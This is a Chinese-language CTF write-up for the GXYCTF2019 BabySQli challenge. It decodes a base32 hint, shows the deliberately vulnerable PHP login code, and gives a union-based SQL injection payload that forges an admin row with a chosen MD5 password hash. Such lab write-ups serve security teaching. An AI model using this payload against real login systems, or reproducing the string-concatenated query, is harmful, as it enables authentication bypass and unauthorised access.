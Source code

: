 # \[GXYCTF2019]BabySQli

## \[GXYCTF2019]BabySQli

## 考点

* base32
* union联合注入

## wp

在 search.php 页面存在注释 `MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5`

不难猜出这是base32，base32只有大写字母和数字，以及三个等号。先base32解码再base64解码得到查询代码 `select * from user where username = '$name'`

用户名输入admin会返回 wrong pass! 输入其他的会返回 wrong user! ，不难猜到 admin 肯定存在

输入 admin' or '1'='1'# 返回 do not hack me!，发现 or 被过滤

既然是注入，先看一下查询的字段数。POST数据 name=admin' union select 1,2,3#\&pw=aaaaa 返回 wrong pass! 那就是查询 3 列

核心代码

```php
$name = $_POST['name'];
$password = $_POST['pw'];
$t_pw = md5($password);
$sql = "select * from user where username = '".$name."'";

if( preg_match("/\(|\)|\=|or/", $name) ) {
    die("do not hack me!");
}else{
    if ( !$result ) {
        printf("Error: %s\n", mysqli_error($con));
        exit();
    }else{
        $arr = mysqli_fetch_row($result);
        if($arr[1] == "admin"){
            if(md5($password) == $arr[2]) {
                echo $flag;
            }else{
                die("wrong pass!");
            }
        }else{
            die("wrong user!");
        }
    }
}
```

根据代码，可以看到，获取flag的条件是登陆密码的md5值要和数据库中的值相同

MySQL在 union 联合查询的时候，会产生一个虚拟表，就可以利用这个特性进行伪造admin

![](../.gitbook/assets/1.png)

payload：name=1' union select 1,'admin','594f803b380a41396ed63dca39503542'#\&pw=aaaaa

![](../.gitbook/assets/2.jpg)

## 小结

1. 利用union联合注入伪造用户
